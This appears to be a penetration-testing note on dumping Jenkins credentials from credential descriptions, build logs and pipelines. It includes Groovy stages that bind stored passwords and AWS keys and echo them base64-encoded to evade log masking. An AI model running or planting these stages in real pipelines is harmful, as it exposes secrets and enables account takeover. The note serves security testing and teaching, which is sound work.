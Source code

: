 # Credentials Dumping

## Credentials in Text fields in Credentials List
- We can find the list of credentials name and id at http://host:ip/credentials/
- While this sounds very hypothetical, it is very much real to find credentials in text and name section.
- Possible reason for rewriting credentials in credentials description makes it easier to remember purpose, or for making debugging easy.

## Dumping credentials from logs

- Build logs are generated from the build output.
- In certain cases depending on how the pipeline is created, credentials can get logged in the build output
<img src="buildlog-password1.png">

## Credentials Dumping from pipeline

- We can store various kinds of credentials in Jenkins ( username:password, AWS credential, secret file, secret text, Github credentials, certificate )
- The withCredentials() function can pass the credential id for the required secret and that credential will be available as an environment variable.
- If there are some global credentials or credentials for the current project scope we can dump them. 
- It is important to know the name of the parameter, and if you have guessed correctly we can get the parameter id from here ( http://host:ip/credentials/ )
- Credentials Bindings ( https://www.jenkins.io/doc/pipeline/steps/credentials-binding/ )

- Dumping Username:Password
``` Groovy
stage('Credential Dumping') {
            steps {
                 withCredentials(
                    [usernameColonPassword(credentialsId: '3b258e73-5e16-4338-883e-7a24927aefe1', variable: 'USERPASS')]
                ) {
                    sh '''
                        echo "$USERPASS" | base64
                    '''
                }
            }
        }
```
- Dumping AWS Keys ( References : https://stackoverflow.com/questions/53859575/jenkinsfile-access-aws-credentials )
```
        stage('Credential Dumping') {
            steps {
                 withCredentials([[$class: 'AmazonWebServicesCredentialsBinding',credentialsId: "8ada641e-429c-4547-9921-a1581dbf86ef",accessKeyVariable: 'AWS_ACCESS_KEY_ID',secretKeyVariable: 'AWS_SECRET_ACCESS_KEY'
]]) {
                    sh '''
                        echo "$AWS_ACCESS_KEY_ID" | base64
                    '''
                }
            }
        }
```        

### Credential ID Dumping

- Imagine we don't have access to  ```http://host:ip/credentials/``` to list the credentials id
- We can either look through the code repository hunting for these id or we need a piece of luck we can use Built-In executor
- When ```# of exectors``` in ```Configure System``` is set to non-zero, we can run builds on the controller, which means we have access to the controllers file system.

## Credentials Dumping from Script Console

## References
- https://www.codurance.com/publications/2019/05/30/accessing-and-dumping-jenkins-credentials
- https://www.jenkins.io/blog/2019/02/21/credentials-masking/
